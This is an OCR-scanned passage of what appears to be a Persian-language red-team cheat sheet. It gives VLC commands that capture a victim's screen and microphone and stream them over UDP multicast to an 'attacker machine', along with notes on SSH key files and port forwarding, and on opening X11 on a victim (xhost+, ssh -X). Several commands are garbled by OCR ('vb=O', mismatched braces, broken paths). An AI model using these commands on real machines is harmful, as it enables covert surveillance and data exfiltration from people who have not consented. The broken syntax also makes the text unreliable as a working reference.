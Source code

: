 ### ذخیره و stream بر روی broadcast

```text
# Start a listener on attacker machine for multicast
vlc udp://@ multicastaddr :1234

# Broadcast stream to a multicast address
vlc screen:// :screen-fps=25 :screen-caching=100
:sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,sam
plerate=44100):udp{dst= multicastaddr :1234) :no-sout-rtp-sap :no-soutstandard-
sap :ttl=1 :sout-keep
```

### ذخیره و ثبت صفحه نمایش درون یک فایل

```text
vlc screen:// :screen-fps=25 :screen-caching=100
:sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,sam
plerate=44100):file{dst=C:\\Program Files (x86)\\VideoLAN\\VLC\\test.mp4)
:no-sout-rtp-sap :no-sout-standard-sap :ttl=1 :sout-keep
```

### ثبت و stream میکروفن بر روی udp

```text
vlc dshow:// :dshow-vdev="None" :dshow-adev="Your Audio Device"
```

## دستور SSH

```text
/etc/ssh/ssh known hosts    #System-wide known hosts
-/.ssh/known_hosts          #Hosts user has logged into    
sshd-generate               #Generate SSH keys (DSA/RSA)
ssh keygen -t dsa -f /etc/ssh/ssh_host_dsa_key       #Generate SSH DSA keys
ssh keygen -t rsa -f /etc/ssh/ssh_host_rsa_key        #Generate SSH RSA keys

If already in ssh session, press SHIFT -C to configure tunnel
Port forwarding must be allowed on target
/etc/ssh/sshd_config - AllowTcpForwarding YES
```

### اتصال با ssh با پورت خاص

```text
ssh root@2.2.2.2 -p 8222
```

### تنظیم x11 قربانی برای حمله کننده

```text
xhost+
vi -/.ssh/config- Ensure 'ForwardXll yes'
ssh -X root@2.2.2.2
```
